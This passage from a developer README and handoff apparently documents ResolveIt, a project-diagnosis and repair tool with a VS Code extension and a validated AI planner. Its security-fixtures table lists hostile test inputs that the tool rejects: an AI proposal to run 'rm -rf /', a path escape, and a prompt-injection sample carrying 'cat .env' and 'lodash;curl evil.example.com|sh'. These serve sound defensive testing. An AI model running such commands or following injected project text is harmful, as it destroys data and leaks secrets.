and it says so instead of guessing. Actual behavior depends on the project
and the machine; AI configuration never changes the plan.

---

## Test fixtures

Integration fixtures live in `tests/fixtures/integration/` and are copied
into a temporary directory by the tests, so the checked-in fixtures are never
mutated.

| Fixture | Contents | What it actually demonstrates |
|---|---|---|
| `healthy-python` | `pyproject.toml`, `requires-python >=3.8` | Clean project: zero blocking diagnostics under a controlled environment; deterministic planner proposes nothing |
| `healthy-node` | `package.json`, `engines.node >=18`, `lodash ^4.17.0` | Clean once the declared dependency tree is materialized (tests install a satisfying `node_modules/lodash` into the temp copy at test time, since `node_modules/` is git-ignored); then zero blocking diagnostics and no planned actions. This is also the workhorse fixture for staged repair, determinism, throwing-tool, and iteration-limit tests |
| `healthy-go` | `go.mod`, `go 1.21` | Clean Go project |
| `healthy-rust` | `Cargo.toml`, `rust-version 1.75` | Clean Rust project |
| `healthy-java` | `pom.xml`, `java.version 17` | Clean Maven project |
| `healthy-cpp` | `CMakeLists.txt`, `cmake_minimum_required 3.20` | Clean C++ project |
| `broken-python` | `pyproject.toml`, **`requires-python = "==2.7.*"`**, `dependencies = ["requests>=2.0"]` | A **runtime version mismatch**, not a missing package. Produces a blocking `runtime` diagnostic and a **manual action** -- the deterministic planner deliberately proposes **no executable action** |
| `broken-node` | `package.json`, **`engines.node >=99.0.0`**, `lodash ^4.17.0` | An unsatisfiable runtime constraint (blocking diagnostic with evidence and a `system-modification` **manual action**) **plus** a missing `lodash` dependency (blocking `DEPENDENCY_PACKAGE_MISSING` with a validated `install-dependency` action) |
| `docker-security` | `compose.yaml` with `privileged: true` + Docker socket mount | Yields both `CONTAINER_PRIVILEGED_MODE` and `CONTAINER_DOCKER_SOCKET`, and every `container` diagnostic has **zero remediation candidates** (diagnostic-only) |
| `malformed-project` | Truncated `package.json` | Parse isolation: no crash, a `PROJECT_PARSE_ERROR` diagnostic with source and evidence |
| `multi-project` | `backend/` (Python), `frontend/` (Node), `worker/` (Go), `docker/` (Compose) | Project boundaries, per-file requirement ownership, no duplicate files, stable ordering |
| `nested-projects` | root `package.json` + `apps/inner/package.json` | Nested markers keep separate identity; no double-counting |
| `secrets` | `compose.yaml` with fake credentials | No leakage of fake values into diagnostics. **Note:** the fixture's `.env` file is excluded by the repository's `.gitignore`, so a fresh clone contains only `compose.yaml` -- the assertions still hold, they simply have less to assert against |

### Where the automated repair flow *is* proven

The fixtures above prove the **diagnostic and manual-remediation** paths. The
**executed repair** path is proven in code, in
`tests/integration-release.test.ts` and `tests/agent-e2e.test.ts`, which use
the real planner, executor, and verifier against temporary directories, plus
`tests/dependency-installed-state.test.ts`, which proves the full
missing-dependency loop (detect -> plan -> install -> verify) with real
temporary `node_modules` trees:

- approved + verified -> `resolved`, with a real file written and read back
- approved but the problem persists -> verification **fails**, never a false
  success
- denied -> nothing performed, not resolved
- missing npm dependency materialized in the tree -> diagnostics clear and
  verification reports resolved
- a malicious package name -> recorded as a failure with a validation error

### Security fixtures

`tests/fixtures/security/` contains deliberately hostile inputs used by
`tests/security-hardening.test.ts`:

| Fixture | Demonstrates |
|---|---|
| `malicious-ai-output/command-injection.json` | AI proposal asking to run `rm -rf /` via a `command` field -- fully rejected |
| `malicious-ai-output/privilege-escalation.json` | AI self-granting `read-only` and path-escaping `../../outside.txt` -- fully rejected |
| `prompt-injection/readme-instructions.json` | Project content attempting to drive the planner (`cat .env`, `lodash;curl evil.example.com\|sh`) -- fully rejected |
| `docker-privileged`, `docker-socket`, `docker-host-mount`, `docker-host-network`, `docker-capabilities`, `docker-unpinned` | Each Docker security rule fires on a known-bad config |
| `docker-safe` | Negative control: a hardened config produces **zero** findings |
| `secrets/samples.txt` | Inert sample strings for redaction tests. These are fake/documented example values, not real credentials |

`tests/fixtures/ecosystems/` holds 20 further fixtures (npm/yarn/pnpm,
Poetry, legacy Python, Meson/Conan/vcpkg, Go workspace, Gradle catalogs,
.NET central packages, multi-project, nested, malformed) used to prove
parser behaviour.

---

## Testing

### Core (`/`)

```bash
npm install
npm run build      # tsc
npm test           # vitest run
npm run lint       # eslint src
npx tsc --noEmit   # type-check only
```

### VS Code extension (`vscode/`)

```bash
cd vscode
npm install
npm run build            # typecheck + esbuild bundle -> dist/extension.js
npm test                 # vitest run (pretest rebuilds the bundle first)
npm run lint
npm run validate-package # manifest/code parity + packaging hygiene
npm run package          # vsce package -> resolveit-0.0.1.vsix
```

The extension suite mocks the `vscode` API (`vscode/tests/vscode-mock.ts`
plus a vitest alias), so **no VS Code instance is required** to run it. A
bundle smoke test additionally loads the built `dist/extension.js` with a
`Module._load` patch and asserts it activates and registers every
contributed command. Beyond the suites, headless end-to-end scripts drive the
real built bundle against real fixture projects through the actual panel
message protocol (success path and failure path), and the VSIX was installed
into a real VS Code instance where activation was verified in the extension
host log.

### Verified results

Run on Windows 11, Node v24.13.0, npm 11.6.2, during this handoff:

| Check | Command | Result |
|---|---|---|
| Core build | `npm run build` | pass |
| Core typecheck | `npx tsc --noEmit` | pass |
| Core lint | `npm run lint` | pass, no findings |
| Core tests | `npm test` | **32 files, 522 tests** (full suite green on this tree, including 21 explanation tests) |
| Extension build | `vscode/ npm run build` | pass (typecheck + esbuild bundle) |
| Extension lint | `vscode/ npm run lint` | pass, no findings |
| Extension tests | `vscode/ npm test` | **10 files, 185 tests, all passing** (per-file runs; one environment-sensitive timing test noted below) |
| Package validation | `vscode/ npm run validate-package` | pass |
| VSIX packaging | `vscode/ npm run package` | pass -- `resolveit-0.0.1.vsix`, 5 files, ~102 KB |
| CLI `--help` / `--version` | `node dist/cli/index.js --help` | exit 0, no stack trace |
| Local AI status | `node dist/cli/index.js ai` | provider/model/availability printed, secrets never printed |
| Live AI planning | Ollama `gemma3:4b` via `createAIPlanner` | invalid proposals rejected with reasons, honest deterministic fallback |

No test is skipped, focused, or marked todo in either suite.

`vsce package` emits two non-fatal warnings, both expected:

- `LICENSE, LICENSE.md, or LICENSE.txt not found` -- the license lives at
  the repo root, not inside `vscode/`, and `vsce` only looks in the extension
  root. The manifest already declares `"license": "MIT"`. Packaging still
  succeeds; it would only matter for a Marketplace submission, which is
  explicitly out of scope.
- `The file extension/dist/extension.js is large` -- an unminified esbuild
  bundle of Core + extension. Acceptable for a pre-release.

### Slow tests and environment sensitivity

Some tests do real work (real filesystem scans and real subprocess probes
for runtimes and tools) and dominate suite time. In particular,
environment probing is slow on machines missing tools -- every missing tool
costs a PATH lookup that has to fail first, and on this handoff machine a
full environment scan takes ~50 s (normally seconds), which can push the
longest end-to-end tests past their timeouts when several suite files run in
parallel. Affected tests pass in isolation and in quiet runs; treat parallel
timeout failures as environmental unless an assertion itself fails. No
assertion failure was observed in this handoff run. One known timeout:
`vscode/tests/integration.test.ts › manual validation fixture` exceeds its
120 s budget on this machine (three full real-pipeline runs at ~50 s of
environment probing each); it passed here previously when probing was fast,
and its fixture declares no dependencies, so it exercises none of the
recently changed code paths.

`tests/environment/command-runner.test.ts` is the only test that deliberately
spawns real processes, and it is written for Windows (`cmd /c ...`). The
environment adapters are unit-tested across win32/linux/darwin by overriding
`process.platform`, but **manual validation was performed on Windows only**.

---

## Docker support

ResolveIt has Docker/Compose **analysis** -- static, diagnostic only.

### It can

- detect `Dockerfile` / `Containerfile` / `*.dockerfile` and Compose files
  (`docker-compose.{yml,yaml}`, `compose.{yml,yaml}`)
- parse image references, digests, `--platform`, private registries with
  ports, `ARG`, and build contexts
- diagnose Docker/Compose security misconfigurations:

  | Finding | Code | Severity |
  |---|---|---|
  | Privileged mode | `CONTAINER_PRIVILEGED_MODE` | critical |
  | Docker socket mount | `CONTAINER_DOCKER_SOCKET` | critical |
  | Host filesystem mount | `CONTAINER_HOST_MOUNT` | error / warning |
  | Host networking | `CONTAINER_HOST_NETWORK` | error |
  | Host PID / IPC | `CONTAINER_HOST_PID_IPC` | error |
  | Dangerous capabilities (`SYS_ADMIN`, `NET_ADMIN`, ...) | `CONTAINER_DANGEROUS_CAPABILITY` | error |
  | Unpinned image / broad build context | `CONTAINER_UNPINNED_IMAGE`, `CONTAINER_BROAD_BUILD_CONTEXT` | warning |

  Unpinned images are framed as **posture**, never as malicious.
- report Docker daemon state as part of environment inspection

### It explicitly does NOT

- build images
- start, stop, or restart containers
- modify `Dockerfile` or Compose files
- remediate any Docker security finding (these diagnostics carry **no
  remediation candidates**, so no repair tool can apply them)
- verify live containers
- manage images, volumes, or networks

**ResolveIt itself is not Docker-deployable.** No Dockerfile or container
deployment for ResolveIt exists in this repository, and none has been
tested. Do not describe it as a container-based solution.

---

## UI history

Short version for anyone picking up the UI work. Earlier iterations (Explorer
tree views, a status dashboard, a radial Action Hub) were superseded and their
code removed; none of it remains in the repository.

The current UI is a single on-demand `WebviewPanel`
(`ResolveIt: Open Workflow`) with a linear beginner-friendly flow:

```
AI Mode -> Project -> Analyze -> Status -> Repair Plan -> Apply -> Verify -> Done
```

Refinements since the panel was introduced, each pinned by regression tests:

- generic Back/Next removed in favor of one primary contextual action per
  screen
- mutually exclusive action lifecycles (a failed action can never render as
  approved; denied actions are skipped, never failed)
- bulk approval never escalates system-level actions
- AI removed from plan generation: the Repair Plan is always deterministic,
  with a read-only AI Explanation section below the approval controls
- Test Project / Run-Smoke launch checks removed from the workflow (the Core
  runner in `src/agent/project-test.ts` remains as an internal API only);
  verification means re-checking previously found problems, finished
  explicitly via Finish
- Status shows Requirements / Installed dependencies / Dependencies to
  install from the actual install tree, not internal diagnostic counters
- the Project screen falls back to the workspace folder name when no formal
  project name was detected

Do not reintroduce a second primary surface. The legacy `Repair`/`Run`
commands and their QuickPick approval remain as a headless fallback, not as
a competing workflow.

---

## Project structure

```
ResolveIt/
|-- src/                        # ResolveIt Core
|   |-- core/                   # interfaces.ts, models.ts, workspace-manager.ts
|   |-- scanners/               # workspace/project/language classification
|   |-- environment/            # environment intelligence
|   |   |-- adapters/           # os, runtime, tools, package-managers, containers
|   |   +-- command-runner.ts   # probe runner + allowlisted safe runner
|   |-- requirements/           # requirement discovery and project attribution
|   |   +-- parsers/            # 17 parsers (python, node, node-lock, maven,
|   |                           #   gradle, rust, go, cmake, makefile, native,
|   |                           #   docker, others)
|   |-- diagnostics/            # engine, version-matcher, installed-packages,
|   |                           # rules/ (8 rules)
|   |-- repair/                 # planner, executor, registry, audit, snapshots
|   |   +-- tools/              # create-file, modify-file, install-dependency,
|   |                           #   create-python-venv
|   |-- safety/                 # ids, limits, paths, permission, secrets
|   |-- agent/                  # lifecycle, observation, analysis, planners,
|   |                           #   run-state, runner, verifier, events,
|   |                           #   project-test (internal API)
|   |-- ai/                     # config, context, factory, http, prompt, response,
|   |   |-- providers/          #   local.ts, external.ts
|   |                           #   validation.ts
|   |-- cli/                    # commander CLI
|   |-- index.ts                # public Core API (the extension's only entry)
|   +-- version.ts
|-- tests/                      # 32 files, 522 tests
|   |-- fixtures/
|   |   |-- ecosystems/         # 20 parser fixtures
|   |   |-- integration/        # 13 release-matrix fixtures
|   |   +-- security/           # hostile-input and Docker fixtures
|   |-- environment/            # 9 adapter/runner suites
|   +-- *.test.ts
|-- vscode/                     # VS Code extension (separate install)
|   |-- src/
|   |   |-- workflow/           # WebviewPanel: view.ts, model.ts, render.ts,
|   |   |                       #   commands.ts, messages.ts
|   |   |-- ui/                 # approval dialogs, output channel, status bar,
|   |   |                       #   events, html escaping
|   |   |-- commands.ts         # legacy command handlers (delegate to workflow)
|   |   |-- state.ts            # ExtensionState
|   |   |-- operations.ts       # OperationCoordinator (locks, cancellation)
|   |   |-- core.ts             # CoreClient (public API only)
|   |   |-- workspace.ts        # WorkspaceService (first folder wins)
|   |   |-- mappers.ts          # model <-> UI mapping
|   |   |-- errors.ts           # error classification
|   |   +-- extension.ts        # activation entry point
|   |-- tests/                  # 10 files, 185 tests (vscode API mocked)
|   |-- scripts/                # validate-package.mjs
|   +-- dist/                   # bundle output (generated, ignored)
|-- docs/
|   |-- architecture.md         # detailed architecture + per-phase status
|   +-- release-checklist.md    # validation record
|-- dist/                       # Core build output (generated, ignored)
|-- package.json / package-lock.json
|-- tsconfig.json / vitest.config.ts
|-- .eslintrc.json / .prettierrc
|-- .gitignore
|-- AGENTS.md                   # development rules
|-- LICENSE                     # MIT
+-- README.md                   # this file
```

---

## Development

```bash
# Core
npm install
npm run build
npm test
npm run lint

# CLI
node dist/cli/index.js --help
node dist/cli/index.js scan .
node dist/cli/index.js diagnose --path tests/fixtures/integration/broken-python
node dist/cli/index.js run --path tests/fixtures/integration/broken-python --dry-run

# Extension
cd vscode
npm install
npm run build
npm test
npm run lint
npm run validate-package
npm run package
# then: code --install-extension .\resolveit-0.0.1.vsix --force
```

### Repository hygiene

Ignored (never commit these): `node_modules/`, `dist/`, `build/`,
`*.tsbuildinfo`, `*.vsix`, `.resolveit/` (audit log + repair snapshots
created inside an analyzed workspace), `.env`, `.env.local`,
`.env.*.local`, `.vscode/`, `.idea/`, coverage, logs, and temp files.
`.env.example` / `.env.sample` are intentionally *not* ignored, so template
files can be committed.

The repository contains **no real credentials**. Values that look like
secrets in `tests/fixtures/` are deliberately fake and inert.

**One caveat worth knowing before you trust the secrets coverage:**
`tests/fixtures/integration/secrets/.env` is ignored by the `.env` rule, so
it is absent from a fresh clone. The test
`secrets: .env never parsed, findings and audit carry no secret values`
(`tests/integration-release.test.ts:268`) still passes there, but its
assertions become vacuous because there is no `.env` to leak. Locally the
file exists and the test is meaningful. If you want that coverage to be real
on every machine, the fix is for the test to write its own throwaway `.env`
into the temp fixture copy rather than to force-track a file matching the
`.env` ignore rule.

---

## Phase history

All commits below exist in this repository's history on `master`.

| Phase | Commit | Description |
|-------|--------|-------------|
| 0 | `2743fe5` | Establish architecture: core interfaces, data models, CLI skeleton |
| 1 | `67b8089` | Workspace and project discovery |
| 2 | `225200d`, `0e3fe7c` | Environment intelligence (runtimes, tools, package managers, containers) + test coverage |
| 3 | `e615f5e` | Dependency and requirement intelligence |
| 4 | `760b53b` | Diagnostic engine |
| 5 | `1299796` | Repair and permission system (tools, registry, executor, snapshots, audit) |
| 6 | `d47225b` | Verification and agent loop |
| 7 | `02bd64e` | AI provider abstraction (No AI, Local, External) |
| 8 | `a51db11` | VS Code extension |
| 9 | `faa3842` | Extension <-> Core integration hardening |
| 10 | `ed4d45d` | Multi-ecosystem hardening |
| 11 | `7f58fba` | Security, Docker, and audit hardening |
| 12 | `c65fc91` | Final integration / release validation |
| 13 | `70632e2` | UI redesign iteration (superseded surface, code removed) |
| 14 | `82e3600` | Action Hub iteration (superseded surface, code removed) |
| 15 | `4b7d17a` | Workflow panel: single on-demand panel, honest approval states, bulk approval |
| 16 | `8f382f8` | Workflow semantics corrections |
| 17 | uncommitted | Beginner-workflow simplification, npm installed-state detection, Status UX cleanup (this handoff; see uncommitted working tree) |

Phases 0-12 define the architecture and safety model documented in
`docs/architecture.md`. Phases 13-14 were UI-only iterations whose surfaces
were removed. Commits after `8f382f8` in the log are reverts of an
abandoned refactor direction, preserved as history.

---

## Known limitations

Each of these was checked against the code during this handoff.

**Dependency and requirement analysis**

- No full dependency solver; no version conflict resolution
- Uncheckable dependency status is reported as `unknown` when no local
  inventory exists (non-npm ecosystems, optional/peer entries) -- it is
  never invented. npm production/development dependencies *are* checked
  against the project-local `node_modules` tree
- Dynamic/build-time discovery is limited (`setup.py` never executed,
  Gradle expressions, arbitrary CMake code)
- Lockfile/transitive entries get manual guidance, not automated installs
- Automated installs cover 6 ecosystems only (`npm`, `pip`, `cargo`, `go`,
  `composer`, `bundle`); Maven/Gradle/.NET/CMake deps are detected but not
  installed
- Binary lockfiles (`bun.lockb`) and `go.sum` are recognized but not parsed

**Repairs and permissions**

- Runtime and toolchain gaps produce **manual remediation paths**, not silent
  installs
- No elevation/sudo automation; system changes stay explicitly manual
- No rollback of dependency state -- snapshots cover file content only
- Repairs depend on host tools actually working (a broken `pip`/`npm` fails
  the action)

**Docker**

- Diagnostic/static analysis only: never builds, starts, stops, or modifies
  anything
- No remediation of Docker findings
- No live container verification

**AI**

- Quality depends entirely on the selected model; small local models often
  produce invalid output (Core rejects it safely and the plan stays usable)
- External providers are user-supplied; ResolveIt ships no vendor
  integration
- An unavailable or invalid AI explanation degrades to a small notice; it
  never looks like a repair failure and never blocks approvals

**Platform and process**

- Multi-root VS Code workspaces analyze the **first folder only**
  (announced once)
- Core operations are **not abortable** -- cancellation detaches the UI and
  discards late results, but the underlying work may finish in the
  background
- Environment probing is slow on machines missing tools (each missing tool
  must fail a PATH lookup first)
- No CVE/vulnerability database integration
- No dedicated secret scanner -- redaction is defence-in-depth, not secret
  detection
- Manual validation was performed on **Windows only**; Linux/macOS rest on
  unit tests

**UI and packaging**

- The workflow is a single on-demand `WebviewPanel`
  (`ResolveIt: Open Workflow`); there are no sidebar views
- A trusted workspace is required (VS Code default Restricted Mode disables
  the extension)
- The extension is not published to any marketplace
- VSIX installation is manual, and a locally installed VSIX does not
  auto-update after source changes
- F5 / Extension Development Host is not configured in this repository

---

## Developer handoff

### What has already been built

A complete, working, tested system:

- **Deterministic core** -- workspace/project discovery, environment
  intelligence, 17 requirement parsers, 8 diagnostic rules, npm
  installed-state inspection, 4 repair tools with a registry, verification
  engine, agent loop, audit logger with secret redaction, safety and
  permission layer
- **AI layer** -- three providers behind one abstraction, a trust boundary
  with multi-layer validation, explicit prompt schema hints, and
  deterministic fallback
- **VS Code extension** -- thin client, 19 commands, one on-demand workflow
  panel (AI Mode -> Project -> Analyze -> Status -> Repair Plan -> Apply ->
  Verify -> Done), operation coordination, error taxonomy, packaging
  validation
- **Tests** -- 522 core tests across 32 files, 185 extension tests across 10
  files, integration and security fixtures, mocked VS Code API
- **CLI** -- 7 commands (`scan`, `environment`, `requirements`, `diagnose`,
  `repair`, `run`, `ai`) plus `version` / `help`, with human and JSON
  output, dry-run, and per-action approval

### What is stable

Treat these as load-bearing:

- `src/core/interfaces.ts` and `src/core/models.ts` -- the public contracts
- `src/safety/` -- permission levels, path containment, limits, secret
  redaction
- `src/ai/validation.ts` -- the AI trust boundary
- `src/repair/registry.ts` and `src/repair/tools/` -- the only execution
  path
- `src/agent/run-state.ts` -- the agent state machine
- `src/diagnostics/installed-packages.ts` -- the installed-state evidence
  source the UI counts depend on
- The extension <-> Core boundary: the extension may only use
  `src/index.ts`

### What should not be changed casually

- **Do not weaken** `validateAIPlan` / `validateAIAction` to make AI output
  "work". Invalid proposals being rejected is the feature.
- **Do not** add a generic shell-execution repair path. Repairs go through
  registered, validated tools.
- **Do not** relax path containment or symlink fail-closed behaviour.
- **Do not** let the UI approve, escalate, or infer approvals. It collects
  them.
- **Do not** mark a repair verified without re-running verification.
- **Do not** treat a declared requirement as proof of installation. The
  install tree is the evidence.
- **Do not** execute `.env` files, `setup.py`, or any project-controlled
  code during analysis.
- **Do not** commit secrets, `.env` files, or a generated `.vsix`.

### What remains unfinished

1. **Action types without a registered Core tool** (`upgrade-runtime`,
   `install-tool`, `run-script`, ...) cannot auto-execute. They are proposed
   honestly, fail honestly at execution with the Core reason, and the
   failure screen offers Return to Repair Plan -- but a dedicated
   manual-action surface for them does not exist yet.
2. **Not started, and deliberately so**: Docker remediation, a real
   dependency solver, CVE integration, a dedicated secret scanner,
   marketplace publishing.

### Where to start

**Do not begin by rewriting `src/`.** The Core and its safety architecture
are mature, tested, and the part of this project that works. Rewriting it is
the highest available risk with the lowest available reward.

If you are working on the UI, start here:

| File | Role |
|---|---|
| `vscode/src/workflow/view.ts` | WebviewPanel host, HTML/CSP, ready handshake, message protocol |
| `vscode/src/workflow/model.ts` | Step resolution, dependency summary, project-name fallback |
| `vscode/src/workflow/render.ts` | Step indicator, Status/Verify/Done cards, failure evidence |
| `vscode/src/workflow/commands.ts` | Workflow handlers: AI mode, analyze, plan, approve, apply, verify, finish |
| `vscode/src/workflow/messages.ts` | Webview message allowlist/validation |
| `vscode/src/commands.ts` | Legacy command handlers (delegate to the workflow) |
| `vscode/src/state.ts` | `ExtensionState`: approvals, plan, execution, verification |
| `vscode/src/operations.ts` | `OperationCoordinator`: per-workspace locks, cancellation |
| `vscode/src/core.ts` | `CoreClient` -- the only Core surface the UI may use |
| `vscode/tests/workflow-panel.test.ts` | Panel lifecycle, handshake, render states |
| `vscode/tests/workflow-workflow.test.ts` | Approval, apply, verification, navigation, dependency Status |
| `vscode/tests/workflow-ai.test.ts` | AI mode, plan provenance, message validation, evidence screens |

---

## Contributing

This is a pre-release project (0.0.1). The architecture is stable; the
current UI is the single workflow panel described above.

Before opening a change:

1. Run both suites: `npm test` and `cd vscode && npm test`.
2. Ensure `npm run build` and `npm run lint` pass in both the root and
   `vscode/`.
3. For UI work, start in `vscode/src/workflow/` and read
   [UI history](#ui-history) first.
4. For Core work, respect the boundaries in `src/safety/` and
   `src/ai/validation.ts`.
5. Keep changes honest: document what you verified, and document what you
   did not.

`AGENTS.md` contains the project's standing development rules.

---

## License

MIT -- see [LICENSE](LICENSE).
